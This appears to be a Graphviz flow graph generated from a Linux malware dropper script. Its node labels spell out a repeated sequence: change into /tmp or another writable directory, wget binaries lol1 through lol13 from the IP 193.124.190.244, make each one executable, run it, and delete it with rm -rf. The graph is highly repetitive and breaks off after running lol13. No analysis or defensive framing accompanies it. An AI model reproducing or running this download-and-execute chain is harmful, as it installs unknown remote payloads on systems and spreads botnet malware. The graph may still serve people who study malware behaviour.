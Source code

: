 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://193.124.190.244/lol1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x lol1 "];
12 -> 14 [label=";,"];
14 [label="./lol1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf lol1 "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://193.124.190.244/lol2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x lol2 "];
30 -> 32 [label=";,"];
32 [label="./lol2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf lol2 "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://193.124.190.244/lol3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x lol3 "];
48 -> 50 [label=";,"];
50 [label="./lol3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf lol3 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://193.124.190.244/lol4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x lol4 "];
66 -> 68 [label=";,"];
68 [label="./lol4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf lol4 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://193.124.190.244/lol5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x lol5 "];
84 -> 86 [label=";,"];
86 [label="./lol5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf lol5 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://193.124.190.244/lol6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x lol6 "];
102 -> 104 [label=";,"];
104 [label="./lol6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf lol6 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://193.124.190.244/lol7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x lol7 "];
120 -> 122 [label=";,"];
122 [label="./lol7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf lol7 "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://193.124.190.244/lol8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x lol8 "];
138 -> 140 [label=";,"];
140 [label="./lol8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf lol8 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://193.124.190.244/lol9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x lol9 "];
156 -> 158 [label=";,"];
158 [label="./lol9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf lol9 "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://193.124.190.244/lol10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x lol10 "];
174 -> 176 [label=";,"];
176 [label="./lol10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf lol10 "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://193.124.190.244/lol11 "];
190 -> 192 [label=";,"];
192 [label="chmod +x lol11 "];
192 -> 194 [label=";,"];
194 [label="./lol11 "];
194 -> 196 [label=";,"];
196 [label="rm -rf lol11 "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://193.124.190.244/lol12 "];
208 -> 210 [label=";,"];
210 [label="chmod +x lol12 "];
210 -> 212 [label=";,"];
212 [label="./lol12 "];
212 -> 214 [label=";,"];
214 [label="rm -rf lol12 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://193.124.190.244/lol13 "];
226 -> 228 [label=";,"];
228 [label="chmod +x lol13 "];
228 -> 230 [label=";,"];
230 [label="./lol13 "];
230 -> 231 [label=";,"];
}
